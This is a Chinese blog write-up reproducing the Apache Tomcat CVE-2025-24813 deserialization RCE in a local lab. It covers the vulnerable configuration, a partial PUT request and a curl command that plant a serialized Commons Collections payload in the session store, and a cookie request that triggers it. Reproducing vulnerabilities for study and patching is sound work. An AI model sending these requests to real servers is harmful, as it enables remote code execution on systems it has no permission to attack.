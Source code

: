```yaml
---
layout: post
title: 'Apache Tomcat RCE漏洞复现（CVE-2025-24813）'
date: "2025-03-16T00:41:16Z"
---
```

Apache Tomcat RCE漏洞复现（CVE-2025-24813）
=====================================

近日官方披露 Apache Tomcat partial PUT文件上传反序列化漏洞。在 CVE-2025-24813 中tomcat开启文件会话持久化，攻击者可利用PUT上传文件，并构造恶意请求触发session文件反序列化。

漏洞描述
====

该漏洞的核心在于 Tomcat 在处理不完整PUT请求上传时，会使用了一个基于用户提供的文件名和路径生成的临时文件。

若同时满足以下条件，攻击者可执行任意代码：

1.  默认 Servlet 启用了写权限（默认禁用）
    
2.  启用了部分PUT请求支持（默认启用）
    
3.  应用程序使用 Tomcat 的基于文件的会话持久化（默认存储位置）
    
4.  应用程序包含可被利用于反序列化攻击的库
    

受影响版本
=====

*   Apache Tomcat 11.0.0-M1 至 11.0.2
    
*   Apache Tomcat 10.1.0-M1 至 10.1.34
    
*   Apache Tomcat 9.0.0-M1 至 9.0.98
    

漏洞环境搭建
======

尝试使用 Tomcat 9.0.98 版本复现：[https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.98/bin/apache-tomcat-9.0.98.zip](https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.98/bin/apache-tomcat-9.0.98.zip)

根据里利用条件描述：

1.  需要在conf/web.xml中，将DefaultServlet的readonly配置为false，启用写入功能

    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314195524448-733187766.png)

2.  需要在conf/context.xml中，开启File文件会话存储

    <Manager className="org.apache.catalina.session.PersistentManager">
        <Store className="org.apache.catalina.session.FileStore"/>
    </Manager>
    

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314195229042-1041249511.png)

3.  PUT方法默认是启用状态
    
4.  需要在项目中包含可被利用于反序列化攻击的库（例如 Commons Collections 3.2.1）
    
    下载 commons-collections-3.2.1.jar（[https://mvnrepository.com/artifact/commons-collections/commons-collections/3.2.1）](https://mvnrepository.com/artifact/commons-collections/commons-collections/3.2.1%EF%BC%89)
    
    将该 jar 包放入`webapps\ROOT\WEB-INF\lib`目录下
    

利用条件准备完毕，启动 Tomcat 程序：`.\bin\catalina.bat run`（若是在 liunx/mac 环境下则改用 catalina.sh ），浏览器访问本地8080端口查看是否启动成功。

漏洞复现
====

参考@jweny大佬文章：[https://forum.butian.net/article/674](https://forum.butian.net/article/674)

使用 partial PUT 请求将恶意的序列化数据写入到会话文件中，在开启文件会话持久化（默认存储位置），并且在文件上传未完成的情况下，内容会被临时存储在 Tomcat 的工作目录`work\Catalina\localhost\ROOT`。

在 HTTP 协议中，`Content-Range` 字段用于表示客户端通过分段传输的方式上传或下载文件。例如 `Content-Range: bytes 0-1000/1200` 表示文件总大小是1200字节，本次上传的是前1001字节（0-1000），后续上传剩余部分（1001-1200）。

所以利用这个特点，可以分段上传覆盖或注入敏感文件，尝试下向默认存储位置 work\\Catalina\\localhost\\ROOT 注入文件：

    PUT /poc/session HTTP/1.1
    Host: localhost:8080
    Content-Range: bytes 0-1000/1200
    
    {{(paylaod...)}}
    

注意看ROOT目录下成功写入了文件（.poc.session）：

Tomcat 对不完整的PUT请求上传时的文件名处理机制：文件路径中的分隔符 `/` 会被转换为 `.`

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314205418431-1182118982.png)

准备生成一个恶意的序列化文件上传，推荐使用 [Java Chains](https://java-chains.vulhub.org/zh/docs/guide "Java Chains") 快速生成一个base64编码的cc链反序列化payload，这里选择用K1链来弹计算器：

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314210209922-98260330.png)

准备好PUT请求包，这里需要注意 Content-Range 的分块值需要大于当前文件的长度。这里使用yakit的base64dec()标签对payload进行解码上传，直接上传Raw格式Payload是不可用的。

或者使用curl直接上传bin格式Payload文件：

`curl -X PUT -H "Content-Range: bytes 0-1000/1200" --data-binary @payload.ser http://localhost:8080/poc/session`

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314221139220-903650715.png)

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314214535909-720204882.png)

当Payload文件被上传成功后，大约30s之内就会被自动触发，随之该session文件被清除。

也可以使用以下poc直接触发：

    GET / HTTP/1.1
    Host: localhost:8080
    Cookie: JSESSIONID=.poc
    

![image](https://img2024.cnblogs.com/blog/3222269/202503/3222269-20250314213024833-1944630460.png)

> 参考文章  
> [https://forum.butian.net/article/674](https://forum.butian.net/article/674)  
> [https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq](https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq)  
> [https://www.bilibili.com/video/BV14dQjYcEc5/?spm\_id\_from=333.1007.top\_right\_bar\_window\_default\_collection.content.click&vd\_source=4558613fd07f85f0f4c56e4f927f88ee](https://www.bilibili.com/video/BV14dQjYcEc5/?spm_id_from=333.1007.top_right_bar_window_default_collection.content.click&vd_source=4558613fd07f85f0f4c56e4f927f88ee)  
> [https://avd.aliyun.com/detail?id=AVD-2025-24813&timestamp\_\_1384=Wqmx0D2DnDBGQ7KDsKo4Cw4xROjhiHqQkF4D](https://avd.aliyun.com/detail?id=AVD-2025-24813&timestamp__1384=Wqmx0D2DnDBGQ7KDsKo4Cw4xROjhiHqQkF4D)

* * *

若有错误，欢迎指正！o(￣▽￣)ブ